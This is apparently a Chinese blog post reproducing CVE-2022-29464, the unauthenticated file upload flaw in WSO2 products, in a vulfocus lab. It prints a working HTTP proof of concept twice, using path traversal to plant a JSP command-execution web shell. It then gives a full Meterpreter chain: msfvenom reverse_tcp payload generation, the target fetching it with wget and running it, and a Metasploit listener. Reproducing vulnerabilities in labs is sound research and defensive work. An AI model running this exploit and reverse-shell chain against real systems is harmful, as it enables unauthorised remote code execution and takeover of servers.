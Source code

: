 ```yaml
---
title: CVE-2022-29464 WSO2文件上传
date: 2023-02-08 14:55:27
tags: CVE漏洞
---
```


### 影响范围

WSO2 API Manager 																						2.2.0 及更高版本到 4.0.0
WSO2 Identity Server 																					 5.2.0 及以上至 5.11.0
WSO2 Identity Server Analytics（身份服务器分析） 								 5.4.0、5.4.1、5.5.0 和 5.6.0
WSO2  Identity Server as Key Manager（身份服务器作为密钥管理器） 5.3.0 及更高版本至 5.10.0
WSO2 Enterprise Integrator 																		 6.2.0 及更高版本至 6.6.0

<!-- more -->

### 一、漏洞描述

WSO2文件上传漏洞是Orange Tsai发现的WSO2上的严重漏洞。该漏洞是一种未经身份验证的无限制任意文件上传，允许未经身份验证的攻击者通过上传恶意JSP文件在WSO2服务器上获得RCE。

### 二、影响范围

WSO2 API Manager 																						2.2.0 及更高版本到 4.0.0
WSO2 Identity Server 																					 5.2.0 及以上至 5.11.0
WSO2 Identity Server Analytics（身份服务器分析） 								 5.4.0、5.4.1、5.5.0 和 5.6.0
WSO2  Identity Server as Key Manager（身份服务器作为密钥管理器） 5.3.0 及更高版本至 5.10.0
WSO2 Enterprise Integrator 																		 6.2.0 及更高版本至 6.6.0

### poc:

```http
POST /fileupload/toolsAny HTTP/1.1
Host: xxxx:xxxx
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 889
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0

--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"; filename="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"

<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```

### 入口：https://ip:port/authenticationendpoint/1.jsp

### 三、漏洞复现

**1.开启靶场环境**

此处用的是vulfocus靶场相关镜像

![](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/1.png)

**2.访问WSO2**

访问地址为https://ip:port/carbon/admin/login.jsp

此处我的访问为 https://10.0.0.128:18966/carbon/admin/login.jsp

![](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/2.png)

**3.上传文件**

通过burp工具进行抓包，然后在repeater模块构造上传请求

![](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/3.png)

```http
POST /fileupload/toolsAny HTTP/1.1
Host: xxxx:xxxx
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 889
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0

--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"; filename="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"

<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```

返回数字即为上穿成功，任何可以通过访问https://ip:port/authenticationendpoint/1.jsp

![](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/4.png)

至此成功实现了CVE-2022-29464文件上传漏洞

**4.取得flag**

可以在内输入指令ls查看目录结构

![](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/5.png)

由于vulfocus的flag存放于tmp目录下，我们直接使用指令 ls /tmp 查看flag

![](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/6.png)

至此成功取得flag，本次漏洞成功复现

##### **msf反弹shell**

若是这种查看方式过于繁琐，可以使用msf取得shell

**1.生成linux木马命令**

![](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/7.png)

```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=10.0.0.127 lport=4444 -f elf -o shell.elf
```

**2.使用python开启http服务**

python3 -m http.server 9999

**3.让靶机下载**

![image-20230131205930045](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/8.png)

在框中输入wget http://0.0.0.0:9999/shell.elf

并且给shell.elf文件执行权限 chmod 777 shell.elf

**4.开启msf监听**

![](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/9.png)



```
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost 10.0.0.127
set lport 4444
```

**5.使靶机运行木马**

./shell.elf

在msf中就能拿到反弹的shell

![](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/10.png)
